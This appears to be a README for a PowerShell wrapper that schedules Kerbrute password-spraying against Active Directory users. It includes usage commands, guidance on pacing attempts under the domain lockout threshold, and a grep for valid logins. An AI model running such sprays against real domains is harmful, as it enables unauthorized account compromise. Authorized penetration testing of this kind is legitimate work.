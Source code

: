 # Usage

```PowerShell
.\kerbrutus.ps1 -ExecutionCount 3 -TimeWindowMinutes 30 -CommandTemplate '..\kerbrute.exe passwordspray -d domain.local .\users.txt -v "<pass>"' -PasswordsFile .\passwords.txt -OutputFile results.log
```

In `-CommandTemplate` the `<pass>` is placeholder value that will be populated in the command from the specified file in `-PasswordsFile`.
Value specified in `-OutputFile` will have all results appended to it.

## Why?

So you can continuously run Kerbrute and use it safely with the password poliicy of the AD environment you are using.

E.g.
```PowerShell
Get-ADDefaultDomainPasswordPolicy
```
```
<SNIP>
LockoutDuration             : 00:30:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 5
<SNIP>
```

So, as the `LockoutDuration` is `30` and the `LockoutThreshold` is `5`, you might choose to safely spray `3` passwords (for ever domain user) within a `30` minute window.
So you'd set the follow as such:
```PowerShell
-ExecutionCount 3 -TimeWindowMinutes 30
```

*NB*: Kerbrutus counts `30` minutes from when the last command finishes executing and adds 1 minute to create a buffer.

Then you can just `grep` all `VALID LOGIN`s from the log file:
```PowerShell
Select-String -Path "results.log" -Pattern "VALID LOGIN"
```
